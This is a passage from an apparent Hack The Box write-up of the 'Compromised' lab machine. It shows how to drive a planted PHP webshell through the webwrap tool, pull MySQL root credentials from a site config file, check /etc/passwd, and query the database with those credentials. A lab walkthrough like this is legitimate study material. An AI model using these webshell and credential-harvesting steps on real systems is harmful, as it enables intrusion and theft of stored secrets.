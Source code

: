 ![](assets/img/Compromised/10000000000002B200000076CF860A50180F2C11.png)

Because working with the browser can be tedious and boring there is a special tool called [webwrap](https://github.com/mxrch/webwrap) which allows you to send commands to your webshell through the terminal. As you can see below.

```bash
rlwrap python3 webwrap.py
http://compromised.htb/shop/vqmod/xml/PHPexploit.php?c=WRAP

```

![](assets/img/Compromised/100000000000044200000063652F53807AD4C457.png)

Because using grep fro finding stored credentials crash the web shell, I needed to do it manually. Inside the file `/var/www/html/shop/includes/config.inc.php` are stored the MySQL
credentials.

```bash
root : changethis
```

![](assets/img/Compromised/10000000000001D2000000A851BB2B5DFE1A7AAF.png)

Furthermore, looking inside the “/etc/passwd” file I found out that youcan login with mysql user in order to get a shell.

Because the web shell doesn’t allow you to use TTY, you can only access to the mysql via the bash command line to request information about the database.

First, I checked the mysql version.

```bash
mysql -u root -p'changethis' -e "select version()"
```

![](assets/img/Compromised/100000000000033F0000004476F537F6F8FCDE4E.png)
